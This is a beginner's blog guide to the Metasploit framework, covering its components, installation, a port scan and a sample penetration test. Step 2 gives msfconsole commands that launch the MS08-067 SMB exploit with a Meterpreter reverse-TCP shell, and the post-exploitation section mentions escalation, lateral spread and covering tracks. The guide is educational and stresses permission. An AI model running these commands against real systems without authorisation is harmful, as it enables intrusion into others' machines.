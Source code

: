 ```yaml
---
layout: post
title: Basic Guide to Metasploit
date: 2024-03-19
categories: ["guide", "metasploit"]
tags: ["metasploit", "cybersecurity", "penetration testing", "ethical hacking", "vulnerability assessment", "security tools"]
og_title: "Metasploit Essentials: A Guide to Ethical Penetration Testing"
og_description: "Master the fundamentals of cybersecurity testing with this in-depth Metasploit guide. Learn ethical hacking techniques, vulnerability assessment, and responsible security exploration."
og_image: "/assets/icons/og-image.png"
og_type: "article"
og_author: "Jim Sines"
---
```

Metasploit is a powerful tool for conducting security assessments and penetration testing. It provides a robust framework for developing and executing exploit code against remote target machines. Moreover, Metasploit is equipped with a vast array of tools that can assist in the exploitation of vulnerabilities and the post-exploitation analysis of systems. This guide aims to provide a comprehensive overview of Metasploit, its core functionalities, and practical applications in ethical hacking contexts.

## Understanding Metasploit

Metasploit is more than just a single tool; it's a complete framework that allows ethical hackers to find, exploit, and validate vulnerabilities. It contains a suite of tools used for tasks ranging from reconnaissance to maintaining access to compromised systems. It's widely used by security professionals and ethical hackers to test the security of systems and applications.

### Key Components of Metasploit

- **msfconsole:** The primary interface to the Metasploit Framework. It provides an all-encompassing environment for launching exploits and managing an engagement.
- **Meterpreter:** A powerful payload that provides a command line interface to interact with a compromised system.
- **Modules:** Metasploit is modular by design, offering various modules like exploits, payloads, post-exploitation modules, and auxiliary modules for different tasks.

## Getting Started with Metasploit

### Installation

Metasploit comes pre-installed on security-focused distributions like Kali Linux. However, it can be installed on most Unix-like operating systems, including Windows under WSL (Windows Subsystem for Linux).

#### On Kali Linux

Metasploit is included out of the box in Kali Linux. Ensure it's up to date using the following commands:

```bash
sudo apt-get update
sudo apt-get upgrade
```

#### On Ubuntu/Debian

For other Linux distributions, you can install Metasploit by first adding its repository and then installing it through the package manager:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod 755 msfinstall
./msfinstall
```

### Basic Usage

To start Metasploit, open your terminal and run:

```bash
msfconsole
```

This command launches the Metasploit console, an interactive shell from which you can execute commands, exploit vulnerabilities, and manage sessions.

## Exploring Metasploit Modules

Metasploit is known for its modular approach, allowing users to pick and choose components as needed. Modules are categorized into several types:

- **Exploits:** Code that takes advantage of a vulnerability in a system or application.
- **Payloads:** Code that runs on a system after an exploit successfully executes. Meterpreter is one of the most sophisticated payloads.
- **Auxiliary:** Additional tools and utilities for reconnaissance, scanning, and fuzzing.
- **Post:** Modules that are used after a successful compromise has been achieved, for actions like privilege escalation, gathering evidence, or covering tracks.

## Conducting a Penetration Test with Metasploit

### Step 1: Reconnaissance

Before exploiting vulnerabilities, you need to know what you're dealing with. Metasploit's auxiliary modules can scan networks and systems to discover open ports, services, and potential vulnerabilities.

Example command to scan a target IP for open ports:

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.105
run
```

### Step 2: Choosing and Configuring an Exploit

After identifying potential vulnerabilities, select an appropriate exploit module and configure it with the target's information.

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.105
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <Your Local IP>
exploit
```

### Step 3: Gaining Access

Executing the exploit, if successful, will grant you access to the target system. For example, if using Meterpreter as a payload, you will have a wide range of commands at your disposal for interacting with the system.

### Step 4: Post-Exploitation

With access to the target system, you can now execute post-exploitation modules to gather more information, escalate privileges, or spread to other accessible systems on the network.

## Best Practices and Ethical Considerations

- **Permission:** Never use Metasploit on systems or networks without explicit, written permission from the rightful owner.
- **Ethics:** Use Metasploit ethically and responsibly. The goal of ethical hacking is to improve security, not to cause harm or breach confidentiality.
- **Continuous Learning:** The cybersecurity field is always evolving. Stay informed about new vulnerabilities, exploits, and defensive techniques.

## Conclusion

Metasploit is an indispensable tool in the arsenal of any security professional. Its power and flexibility in assessing the security posture of systems make it the go-to framework for penetration testers and ethical hackers. This guide has provided a primer to get started with Metasploit, from installation to conducting a basic penetration test. However, the true depth and capabilities of Metasploit can only be appreciated with continuous learning and hands-on practice. Always remember to hack ethically and with permission, using your skills to contribute to the security and safety of the digital world.
